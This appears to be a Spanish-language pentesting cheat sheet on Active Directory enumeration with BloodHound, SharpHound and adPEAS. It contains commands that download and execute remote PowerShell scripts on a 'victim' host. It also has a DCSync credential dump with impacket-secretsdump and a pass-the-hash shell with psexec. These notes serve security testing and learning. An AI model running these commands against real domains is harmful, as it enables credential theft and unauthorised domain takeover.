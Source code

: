 # Bloodhound 

Tags: #AD #BloodHound #SharpHound #Kali #Parrot 

**BloodHound** es una herramienta especializada en analizar y mapear relaciones dentro de Active Directory (AD). Su capacidad para identificar rutas de ataque y relaciones complejas la ha convertido en una herramienta esencial tanto para pentesters como para atacantes. A través de la recopilación y visualización de datos, permite descubrir configuraciones inseguras, privilegios excesivos y posibles vectores de escalación de privilegios o movimiento lateral en entornos AD, lo que la hace invaluable en auditorías de seguridad y pruebas de penetración.

```bash 
1. Visualización de Relaciones: BloodHound utiliza gráficos para mostrar las relaciones entre usuarios, grupos, computadoras y otros componentes en un AD. Estas visualizaciones hacen que sea más fácil para un atacante o pentester entender rápidamente las relaciones complejas y encontrar potenciales caminos de ataque.
    
2. Identificación de Caminos de Ataque: Uno de los principales valores de BloodHound es su capacidad para identificar caminos de escalada de privilegios y movimiento lateral. Al alimentar a BloodHound con datos recopilados, la herramienta puede identificar caminos específicos que un atacante puede seguir para escalar privilegios o moverse lateralmente a través de una red.
    
3. Automatización: La recopilación manual de detalles sobre las relaciones AD puede ser extremadamente lenta y tediosa. BloodHound, junto con su componente de recopilación de datos llamado SharpHound, automatiza gran parte de este proceso, permitiendo a los pentesters recopilar y analizar datos rápidamente.
    
4. Identificación de Vulnerabilidades Comunes: BloodHound también puede identificar patrones comunes que a menudo son vulnerables a la explotación, como configuraciones de delegación inseguras, miembros excesivamente permisivos en grupos de alto privilegio, y usuarios que tienen derechos de sesión local en sistemas críticos.
    
5. Capacidades de Análisis Avanzado: Aparte de identificar caminos obvios, BloodHound puede ayudar a identificar relaciones no evidentes que podrían ser explotadas. Por ejemplo, un usuario podría no tener privilegios directos sobre un recurso, pero a través de una serie de relaciones y delegaciones, podría tener una ruta de acceso indirecto.
    
6. Capacitación y Conciencia: Para defensores y equipos de seguridad, BloodHound también puede ser una herramienta valiosa. Al visualizar la estructura de permisos y las relaciones dentro de AD, los defensores pueden anticiparse a potenciales vías de ataque y tomar medidas para mitigar los riesgos.
```

## Grupos predeterminados de Active Directory:

```bash 
1. 'Domain Admins': Este grupo tiene control total sobre todos los dominios en el bosque. Cualquier usuario que sea miembro de este grupo puede realizar cualquier cambio en el dominio, como crear o eliminar otros usuarios, grupos y modificar políticas de seguridad.
2. 'Enterprise Admins': Los miembros de este grupo tienen permisos para realizar cambios a nivel de toda la empresa, incluidos todos los dominios y bosques.
3. 'Schema Admins': Los usuarios en este grupo pueden hacer cambios en el esquema de AD, que es la definición de objetos y atributos que pueden ser creados y almacenados en AD.
4. 'Account Operators': Pueden administrar las cuentas de usuario y grupos dentro de un dominio, pero no pueden modificar los miembros de los grupos de administradores ni cambiar la configuración de los servidores de dominio. Por lo que puedes crear, modificar cuentas de usuario.
5. 'Exchange Windows Permissions': Puede otorgar los permisos necesarios para que Exchange pueda interactuar con objetos de Active Directory, como usuarios, buzones y grupos. Los miembros de este grupo tienen permisos especiales en contenedores específicos de AD para realizar tareas como crear, modificar y administrar objetos relacionados con Exchange. 
6. 'Backup Operators': Pueden realizar copias de seguridad y restaurar archivos en un servidor, independientemente de los permisos de acceso a esos archivos.
7. 'Server Operators': Pueden realizar tareas de mantenimiento en servidores de dominio.
8. 'Guests': Es un grupo que por defecto tiene privilegios mínimos, y generalmente se utiliza para proporcionar acceso temporal o limitado a la red.
9. 'DNS Admins': Es un grupo especial que tiene privilegios administrativos sobre el servicio DNS del dominio.
10. 'Domain Users': Este grupo incluye todas las cuentas de usuario en un dominio. A menudo se verifica para identificar posibles cuentas huérfanas o no utilizadas.
11. 'Domain Computers': Este grupo incluye todas las estaciones de trabajo y servidores unidos al dominio.
12. 'Domain Controllers': Este grupo incluye todos los controladores de dominio en un dominio. Es esencial garantizar que sólo las máquinas confiables sean parte de este grupo.
13. 'Read-Only Domain Controllers - RODC': Si la organización utiliza RODCs, es esencial garantizar que estén configurados correctamente.
```

## Tipos de ActiveDirectoryRights

```bash 
Los 'ActiveDirectoryRights' incluyen, pero no se limitan a:

1. Read/Write: Leer y escribir información en objetos de AD.
2. Delete: Derechos para eliminar objetos.
3. CreateChild/DeleteChild: Crear o eliminar objetos hijos en un contenedor.
4. Self: Derechos para modificar información propia.
5. GenericAll: Control total sobre el objeto, incluyendo todos los derechos anteriores.
6. WriteDacl: Modificar la lista de control de acceso discrecional (DACL).  
7. WriteOwner: Cambiar el propietario de un objeto.
```

## BloodHound 

* [BloodHound](https://github.com/SpecterOps/BloodHound-Legacy/releases)
* [CustomQueries.json - BloodHound](https://github.com/CompassSecurity/BloodHoundQueries)
* [Neo4j-installation](https://neo4j.com/docs/operations-manual/current/installation/linux/debian/)

```bash 
❯ neo4j console                            # Iniciar neo4j por el puerto local '7474'
❯ neo4j console &> /dev/null & disown      

❯ BloodHound                               # Ejecutar Bloodhound 
❯ BloodHound --no-sandbox & disown         

Notas: 
	1. La versión de Neo4j '4.4.26' funciona con Bloodhound '4.3.1' 
	2. Si es la primera vez que se usa, abrir la web 'localhost:7474', agregar las credenciales 'neo4j:neo4j', despues, colocar una nueva passwd 'neo4j1' y conectarse al 'Bloodhound'
	3. El 'CustomQueries.json' se descarga y se copia en la carpeta donde esta instalado 'BloodHound'
```

```bash 
Identificar lo siguiente en BloodHound:
	1. Identificación de 'Doman Admins'
	2. Identificación de 'usuarios Kerberoasteables'
	3. Identificación de 'usuarios AS-REP Roastable'
	4. Identificación de vectores de ataque 'Find Shortest Paths to Domain Admins'
	5. Identificación de 'Unsconstrained Delegation'
	6. Identificación de usuarios con permisos sobre GPO 'Find if any domain user has interesting against aGPO'
```

## SharpHound 

* [SharpHound](https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)

```powershell
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/SharpHound.ps1') 

❯ Invoke-BloodHound -CollectionMethod All     


Notas: 
	1. Si se ha instalado 'BloodHound' con 'apt' se debe de usar 'SharpHound.exe' que se encuentra en la ruta de instalacion del BloodHound para que se puedan cargar los datos 
	2. Recolectar la información en la maquina victima Windows y obtener un archivo '.zip' para agregarlo a 'BloodHound'
```

## ADPeas 

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada

Notas: 
	1. Al usar ADPeas para hacer la recolección ejecuta 'SharpHound' automaticamente
```

## Subir Data por Python a BloodHound

```bash
❯ bloodhound-python -d Domain.local -u User -p Password -ns IP_DC -c all   # Ejecutamos para recopilar la data y asi poder subir el archivo a la plataforma de Bloodhound

Notas: 
	1. Importamos todos los archivos que fueron generados en formato 'Json'
```

## SharpHound con credenciales Validas desde un CMD en Windows 

```bash 
# Autenticarse en un 'CMD' en Windows con credenciales validas
❯ runas /netonly /user:domain1.com\username cmd    # Autenticarse con credenciales validas a nivel de red en una CMD en Windows> Este comando abrirá una nueva CMD con las credenciales 

❯ dir \\IP\DIR           # Enumerar el directorio con el usuario autenticado desde una CMD en Windows 

❯ .\SharpHound.exe -c all -d domain1.com --domaincontroller IP   # Enumeración con SharpHound a un dominio con credenciales validas desde una CMD en Windows.
Nota: La herramienta regresará un archivo '.zip' que se debe cargar en 'BloodHound' para analizar

❯ python3 -m http.server 80     # Crear un recurso compartido a nivel de red para pasar archivos 
```

## Ataques 'DCSync'

```bash 
# Si encontramos en 'Bloodhound' un usuario que tiene un 'GetChangesAll' sobre el dominio podremos hacer un 'DCSync attack' para obtener el hash del usuario 'Administrador' y por lo tanto efectuar un 'Pass-The-Hash'

❯ impacket-secretsdump <Domain/User@IP>    # Hacemos un ataque 'DCSync', debemos de colocar la passwd del usuario 
❯ impacket-psexec <Domain/Administrator@IP> cmd.exe -hashes <:hash>   # Utilizamos 'psexec' para obtener una consola interactiva autenticandonos como el usuario 'Administrator' y colocando su hash para hacer 'Pass-The-Hash'    
```